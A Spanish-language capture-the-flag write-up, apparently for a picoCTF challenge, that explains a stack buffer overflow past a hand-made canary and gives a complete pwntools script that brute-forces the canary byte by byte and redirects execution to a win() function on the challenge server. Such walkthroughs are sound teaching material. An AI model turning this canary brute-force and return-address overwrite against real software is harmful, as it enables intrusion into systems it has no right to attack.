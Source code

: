 Este ejercicio nos ofrece un binario y su código en C.

```c
Arch:     i386
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x8048000)
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```

El binario nos pide que haya un `canary.txt` creado en el directorio actual de trabajo así que la creamos:

```bash
echo -n 'D3b0' > canary.txt
```

Una vez creado el programa funciona de la siguiente manera:

1. Nos pide establecer un tamaño para un buffer
2. Nos pide introducir un valor al buffer

```c
./vuln
How Many Bytes will You Write Into the Buffer?
> 10
Input> hola
Ok... Now Where's the Flag?
```

Si miramos el código podemos ver el buffer overflow:

```c
read(0, buf, count);
```

Esta línea **lee hasta `count` bytes desde la entrada y los escribe en el buffer `buf`**, sin verificar si `count` es mayor que el tamaño del buffer (`64` bytes), lo que permite un buffer overflow.

```c
sscanf(length,"%d",&count);
```

Entonces, si mandamos como tamaño 100 estaremos escribiendo en la variable `buf` mas que el máximo de 64 bytes que estaba establecido anteriormente.

Ahora que podemos hacer un buffer overflow nuestro objetivo es llegar a la dirección de retorno y mandar el flujo de nuestro programa a la función `win()`. El binario tiene canary hecho manualmente, por eso no aparece en el `checksec`. Si miramos el código podemos ver que hay un chequeo manual con `memcpm` para detectar si hemos sobrescrito el canary:

```c
if (memcmp(canary,global_canary,CANARY_SIZE)) {
    printf("***** Stack Smashing Detected ***** : Canary ValueCorrupt!\n"); // crash immediately
    fflush(stdout);
    exit(0);
}
printf("Ok... Now Where's the Flag?\n");
fflush(stdout);
```

> Como tal el binario no tiene canary, ya que en el `checksec` hems visto que pone que no hay pero el programador que ha hecho el binario ha puesto un “canary manual“.

Si intentamos bruteforcear el canary y clavar los 4 bytes de una tendríamos un problema ya que solo 1 de cada 4.2 mil millones de intentos serían exitosos. Hay una variante a esto que es encontrar el offset al canary y ir bruteforceando de byte en byte y ver si el programa crashea o en este caso si nos salta el mensaje: `***** Stack Smashing Detected ***** : Canary Value Corrupt!`. Esto solo nos llevaría en el peor de los casos 1024 intentos y de promedio 512.

Entonces vamos a ver que tenemos que hacer:

1. Mandar un tamaño para el buffer mayor o igual que nuestro payload final
2. Mandar a `buf` los bytes necesarios hasta llegar al canary
3. Bruteforcear byte a byte el canary
4. Ver la distancia entre el canary y el `EIP` y llenar ese hueco con mas bytes
5. Mandar la dirección de la función win

```c
GRÁFICO

payloadFinal = b'A' * offset_hasta_canary + valor_canary + b'A' * offset_hasta_eip + direccion_win
```

Ahora podemos hacer el script que haga todo esto:

```python
#!/usr/bin/env python3

from pwn import *
import sys

exe = ELF("./vuln_patched")

context.binary = exe
context.terminal = ['kitty']
gdb_script = '''
continue
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
        return r
    return remote("saturn.picoctf.net", 63053)

def main():
    offset = 64
    canary = b''
    chars = string.printable

    for i in range(4):  # Bruteforce de los 4 primeros bytes del canary
        for guess in chars:
            try:
                io = conn()
                payload = b'A' * offset + canary + guess.encode()
                io.sendlineafter(b'> ', str(len(payload)).encode())
                io.sendlineafter(b'> ', payload)
                response = io.recvline(timeout=1)

                if b'Smashing' not in response:
                    canary += p8(ord(guess))
                    info(f"[{i+1}/4] Byte encontrado: {hex(ord(guess))} -> Canary parcial: {canary}")
                    io.close()
                    break
                io.close()
            except Exception as e:
                print(f"[{i+1}/4] EXCEPCIÓN: {e}")
                try:
                    io.close()
                except:
                    pass

    print(f"\n[+] Canary completo encontrado: {canary}")
    payload += b'A' * 16
    payload += p32(exe.symbols.win)
    info(f'Payload: {payload}')
    
    io = conn()
    io.sendlineafter(b'> ', str(len(payload)).encode())
    io.sendlineafter(b'Input> ', payload)
    io.interactive()
if __name__ == "__main__":
    main()

```

Tenemos la flag!

```c
Ok... Now Where's the Flag?
picoCTF{SECRETO}
```

